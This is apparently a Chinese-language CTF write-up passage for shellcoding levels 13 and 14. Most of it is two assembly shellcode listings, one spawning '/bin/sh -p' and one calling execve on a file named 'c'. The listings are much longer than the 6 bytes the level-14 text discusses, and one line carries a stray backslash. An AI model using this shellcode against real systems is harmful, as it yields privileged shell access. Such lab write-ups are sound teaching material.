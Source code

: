

#### Level 13

> Reading 0xc bytes from stdin.

还是用上一题的代码。

#### Level 14

> Reading 0x6 bytes from stdin.

这一题直接又把空间砍了一半，推理一下其实可以想到肯定是已经帮我们做了一切工作，不然只用6字节肯定不够，所以说现在的任务就是确定哪些寄存器的值已经被设置好。


/* execve(path='/bin/sh', argv=['sh', '-p'], envp=0) */

push 0x1010101
xor dword ptr [esp], 0x169722e
push 0x6e69622f
mov ebx, esp\

push 0x70
push 0x1010101
xor dword ptr [esp], 0x2c016972
xor ecx, ecx
push ecx 
push 7
pop ecx
add ecx, esp
push ecx 
push 8
pop ecx
add ecx, esp
push ecx 
mov ecx, esp
xor edx, edx
push 0xb
pop eax
int 0x80

 /* execve(path='c', argv=0, envp=0) */
 /* push b'c\\x00' */
 push 0x63
 mov rdi, rsp
 xor edx, edx 
 xor esi, esi 
 push 0x3b 
 pop rax
syscall